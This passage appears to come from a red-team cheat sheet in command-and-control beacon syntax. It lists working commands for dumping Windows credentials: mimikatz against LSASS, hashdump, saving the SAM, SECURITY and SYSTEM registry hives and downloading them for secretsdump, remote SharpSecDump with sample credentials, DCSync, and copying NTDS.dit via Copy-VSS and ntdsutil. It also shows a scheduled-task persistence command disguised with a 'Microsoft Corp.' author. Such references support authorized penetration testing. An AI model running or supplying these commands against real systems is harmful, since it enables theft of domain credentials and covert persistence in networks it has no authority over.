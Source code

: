 ```
mimikatz.exe log "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords /all" "sekurlsa::wdigest" exit (Run on your local box)
```
SAM dump built in - Injects into LSASS to dump local SAM database hashes to console
```
hashdump
```

### SAM database dump using reg.exe (requries local Admin)
```
run reg.exe save HKLM\sam sam.save
run reg.exe save HKLM\security security.save
run reg.exe save HKLM\system system.save

# Download SAM files then dump hahses offline using Secretsdump.py
download sam.save
download security.save
download system.save
python secretsdump.py -sam sam.save -security security.save -system system.save LOCAL (Run on your local box)
```

### [SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump) SAM and LSA extraction
Remotely dump SAM and LSA secrets (same functionality as Impacket's secretsdump.py)
```
# Runs in the context of the current user
# Local Admin privileges is required on the target machine
execute-assembly C:\SharpSecDump.exe -target=192.168.1.15 -u=admin -p=Password123 -d=lab.local
```

### NTDS.dit dump (all commands below require Domain Admin privileges!)

[Invoke-DCSync.ps1](https://gist.github.com/monoxgas/9d238accd969550136db) to perform DCSync attacks remotely 
```
powershell-import --> Invoke-DCSync.ps1

# Perform DC Sync hash dump for all users in the target domain
powershell Invoke-DCSync -Domain lab.local [-DomainController ops-dc01.lab.local] 

# Perform DC Sync hash dump for all users in the specified group
powershell Invoke-DCSync -Domain lab.local -GroupName "Domain Admins" | ft -wrap -autosize
```
[Copy-VSS.ps1 from Nishang toolkit](https://github.com/samratashok/nishang/blob/master/Gather/Copy-VSS.ps1) to dump NTDS.dit locally on the DC
```
powershell-import --> Copy-VSS.ps1
powerpick Copy-VSS -DestinationDir C:\temp
```
NTDSutil.exe to dump NTDS.dit locally on a Domain Controller
```
run ntdsutil.exe activate instance ntds,ifm,create full C:\ntdsutil,quit,quit | ntdsutil
```
------------------------------------------------------------------------------------------
## Persistence
[SharpStay](https://github.com/0xthirteen/SharpStay) - .NET Persistence
```
# Scheduled task persistence
execute-assembly C:\Sharpstay.exe action=ScheduledTask taskname=TestTask command="C:\windows\temp\file.exe" runasuser=testuser triggertype=logon author=Microsoft Corp. description="Test Task" logonuser=testuser

```